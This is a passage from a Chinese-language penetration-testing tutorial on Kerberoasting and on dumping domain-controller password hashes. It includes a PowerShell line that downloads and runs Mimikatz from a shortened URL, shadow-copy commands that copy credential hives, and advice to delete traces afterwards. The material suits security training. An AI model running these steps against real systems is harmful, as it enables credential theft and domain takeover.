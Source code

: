 ![](img/chapter_4/4-41.png)

如果成功的话，我们已经将一个或多个不同的 Kerberos 票证导入到受害者计算机的内存中。我们现在需要一种方法来提取票据。我们可以使用好工具 Mimikatz Kerberos 导出：
- powershell.exe -exec bypass IEX (New-Object Net.WebClient).DownloadString(‘http://bit.ly/2qx4kuH’); Invoke-Mimikatz -Command ’”““kerberos::list /export”””’

![](img/chapter_4/4-42.png)

一旦我们导出这些票证，它们将仍会驻留在受害者的机器上。在我们开始破解它们之前，我们必须从它们的系统中下载它们。请记住，票据是用服务帐户的 NTLM 哈希加密的。所以，如果我们能猜到 NTLM 哈希，我们就可以读取票据，现在也知道服务帐户的密码。破解账户最简单的方法是使用一个名为 tgsrepcrack 的工具（JTR 和 Hashcat 也支持破解 Kerberoast，稍后我们将讨论）。使用 Kerberoast 破解票证：

- 使用 Kerberoast 来破解票据：
  - cd /opt/kerberoast
  - python tgsrepcrack.py [password wordlist ][kirbi ticketss - *.kirbi]

![](img/chapter_4/4-43.png)

在这个例子中，服务帐户 csk-github 的密码是“p@ssw0rd!”

当然，Empire 有一个 PowerShell 模块为我们做所有需要做的事情。它位于 powershell/credentials/invoke_kerberoast 目录下（ https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ）。

你可以用 John the Ripper 甚至 Hashcat 来破解密码并输出结果。我以前在非常大的网络环境中运行 PowerShell 脚本时遇到过一些问题，因此，退一步的方法是使用 PowerShell 和 Mimikatz 将所有的票据都获取下来。

![](img/chapter_4/4-44.png)

## 转储域控制器哈希

一旦我们获得了域管理访问权，从 DC 中提取所有哈希的老方法就是在域控制器上运行命令，并使用 Shadow Volume 或原始拷贝技术提取 ntds.dit 文件。

回顾磁盘卷影复制技术<br>
由于我们确实可以访问文件系统，并且可以作为攻击者在域控制器上运行命令，因此我们希望获取存储在 ntds.dit 文件中的所有域内哈希。不幸的是，该文件不断地被读和写，即使作为系统，我们也无法读取或复制该文件。幸运的是，我们可以利用名为 Volume Shadow Copy Service 磁盘复制服务（VSS）的 Windows 功能，该功能将创建磁盘的快照副本。然后我们可以从该副本中读取 Ntds.dit 文件将其获取出来。并将其从计算机上取消，这包括窃取 Ntds.dit、System、SAM 和 Boot Key  文件。最后，我们需要清理我们的行踪并删除磁盘拷贝：

- C:\vssadmin create shadow /for=C:
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SYSTEM.
- copy \?\GLOBALROOT\Device\HarddiskVolumeShadowCopy[DISK_NUMBER]\windows\system32\config\SAM.
- reg SAVE HKLM\SYSTEM c:\SYS
- vssadmin delete shadows /for= [/oldest | /all | /shadow=]

NinjaCopy

[Ninjacopy](http://bit.ly/2HpvKwj) 是另一个工具，一旦我们在域控制器上，就可以用来获取 Ntds.dit 文件。Ninjacopy “通过读取原始磁盘卷并分析 NTFS 结构，从 NTFS 分区磁盘复制文件。这将绕过文件 DACL（任意访问控制列表）、读取句柄锁和 SACL（系统访问控制列表）。但你必须是管理员才能运行这个脚本。这可用于读取通常锁定的系统文件，如 NTDS.dit 文件或注册表配置单元。”[http://bit.ly/2HpvKwj]

- Invoke-NinjaCopy -Path “c:\windows\ntds\ntds.dit” -LocalDestination “c:\windows\temp\ntds.dit

DCSync

现在，我们已经回顾了从 DC 提取哈希的老方法，这些方法要求你在 DC 上运行系统命令，并且通常需要在该计算机上删除一些文件，让我们继续讨论新方法。最近，由 Benjamindelpy 和 Vincent Le Toux 编写的 DCSync 引入并改变了从域控制器转储哈希的玩法。DCSync 的概念是它模拟域控制器来请求该域中用户的所有哈希。这意味着，只要你有权限，就不需要运行任何域控制器上的命令，也不必删除 DC 上的任何文件。

